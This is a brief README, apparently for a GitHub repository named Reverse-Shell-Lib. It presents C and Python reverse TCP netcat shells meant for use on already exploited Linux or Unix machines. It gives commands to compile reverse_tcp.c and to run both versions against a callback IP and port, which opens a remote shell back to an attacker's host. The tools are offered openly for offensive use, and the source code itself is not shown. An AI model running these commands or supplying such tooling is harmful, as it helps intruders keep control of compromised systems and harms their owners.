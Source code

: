 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited Linux or Unix machines

# C Reverse Shell
  In order to use this shell it must be compiled with the following command
  gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
  ./reverse_tcp [callback_ip] [port]
  
  
# Python Reverse Shell
  If python3 is on the system you may use the reverse_tcp.py script
  Simply call it with the following command:
  python3 reverse_tcp.py [callback_ip] [port]
  
